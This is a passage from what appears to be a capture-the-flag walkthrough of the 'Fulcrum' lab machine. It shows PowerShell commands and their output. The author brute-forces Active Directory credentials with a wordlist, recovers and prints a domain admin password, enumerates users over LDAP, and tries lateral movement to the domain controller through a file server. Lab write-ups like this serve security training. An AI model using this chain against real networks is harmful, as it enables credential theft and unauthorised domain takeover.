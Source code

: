 It creates a merged.txt file which has a csv wordlist and at the end of the file there is code for a ps1 which bruteforces the AD
[Link to the script](https://gallery.technet.microsoft.com/scriptcenter/Bulk-check-of-Active-c1f46215)


We can tail out the script into a new ps1 file and run it against the merged.txt

```
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {Get-Content ../check-auth.ps1 -Tail 25 > dotalol
.ps1}

[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {.\dotalol.ps1 ..\merged.txt}
...
...
8c32 :: credentials invalid
923a :: credentials valid
a754 :: credentials invalid
...
...
```

Just grep out the line with that username aaaand
```
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {sls 923a ..\merged.txt -ca | select -exp line}
9f68,@fulcrum_df0923a7ca40_$
923a,@fulcrum_bf392748ef4e_$
```

We got domain admin creds!!! Say wuuuut !

> Username : 923a | Password : @fulcrum_bf392748ef4e_$

We try to use those creds from our PSSession but it gives an error
```
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName dc.fulcrum.local -Credential $creds -ScriptBlock {whoami}
[dc.fulcrum.local] Connecting to remote server dc.fulcrum.local failed with the following error message : The WinRM client cannot
process the request. If the authentication scheme is different from Kerberos, or if the client computer is not joined to a domain,
then HTTPS transport must be used or the destination machine must be added to the TrustedHosts configuration setting. Use winrm.cmd
to configure TrustedHosts. Note that computers in the TrustedHosts list might not be authenticated. You can get more information
about that by running the following command: winrm help config. For more information, see the about_Remote_Troubleshooting Help
topic.
    + CategoryInfo          : OpenError: (dc.fulcrum.local:String) [], PSRemotingTransportException
    + FullyQualifiedErrorId : ServerNotTrusted,PSSessionStateBroken
```

Maybe we dont have direct access to the dc, we might have to route the Commands through the file.fulcrum.local
It will ask for creds twice (Once for the file server and once for the dc) At both places we can enter 923a's creds as it is the domain admin


[192.168.1.41]: PS C:\Users\WebUser\Documents> whoami
[192.168.1.41]: PS C:\inetpub\wwwroot> cat web.config
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter = "(objectClass=user)";
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(&(objectClass=user)(Name=*Bob*))"
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(objectClass=user)"
[192.168.1.41]: PS C:\inetpub\wwwroot> $results = $searcher.findAll()
[192.168.1.41]: PS C:\inetpub\wwwroot> foreach($result in $results) { $user = $result.GetDirectoryEntry(); $user | Select * }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir C:\Users\BTables\Desktop\}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {type C:\Users\BTables\Desktop\user.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir ../ }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName file.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName File.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command